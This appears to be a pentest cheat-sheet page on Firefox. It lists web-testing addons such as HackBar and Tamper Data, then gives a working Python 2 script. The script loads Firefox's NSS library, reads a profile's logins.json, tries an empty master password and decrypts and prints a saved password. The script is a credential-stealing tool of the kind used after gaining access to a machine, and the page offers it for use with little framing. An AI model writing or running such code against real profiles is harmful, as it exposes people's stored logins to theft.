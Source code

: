 Firefox
=======


## Useful addons

Here are good Firefox addons to install:

- [Firefox Multi-Account Containers](https://addons.mozilla.org/en-US/firefox/addon/multi-account-containers/)
- [FoxyProxy Standard](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)
- [Wappalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/)
- [HackBar](https://addons.mozilla.org/fr/firefox/addon/hackbartool/)
- [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/)
- [Tamper Data for FF Quantum](https://addons.mozilla.org/en-US/firefox/addon/tamper-data-for-ff-quantum)


## Read password (old)
```python
import os
from ctypes import Structure, CDLL
from ctypes import c_uint, c_void_p, c_char_p, cast, byref, string_at, c_ubyte
import json
import base64

NSSNAME = 'nss3.dll'
FIREFOX_PATH = r'C:\Program Files\Mozilla Firefox'
os.environ['PATH'] = ";".join([os.environ['PATH'], FIREFOX_PATH])

class SECItem(Structure):
    _fields_ = [('type', c_uint), ('data', c_void_p), ('len', c_uint)]

class secuPWData(Structure):
    _fields_ = [('source', c_ubyte), ('data', c_char_p)]

def get_nss_lib():
    nsslib = os.path.join(FIREFOX_PATH, NSSNAME)

    return CDLL(nsslib)

def open_logins_file(folder):
    with open(os.path.join(folder, 'logins.json')) as fd:
        d = fd.read()
        j = json.loads(d)

    return j

def read_password(folder):
    data = open_logins_file(folder)
    nsslib = get_nss_lib()
    logins = data.get('logins', [])

    ret_init = nsslib.NSS_Init(folder)
    print "[+] Init NSS: %s" % ret_init


    keySlot = nsslib.PK11_GetInternalKeySlot()
    nsslib.PK11_CheckUserPassword(keySlot, '')
    nsslib.PK11_Authenticate(keySlot, True, 0)

    field = SECItem()
    dectext = SECItem()

    pwdata = secuPWData()
    pwdata.source = 0 #PW_NONE
    pwdata.data = 0

    d = logins[0]['encryptedPassword']
    print d
    field.data = cast(c_char_p(base64.b64decode(d)), c_void_p)
    field.len = len(base64.b64decode(d))

    print nsslib.PK11SDR_Decrypt(byref(field), byref(dectext), byref(pwdata))
    print string_at(dectext.data, dectext.len)

    nsslib.NSS_Shutdown()

if __name__ == '__main__':
    d = r'C:\Users\xxx\AppData\Roaming\Mozilla\Firefox\Profiles\xxx'
    read_password(d)

```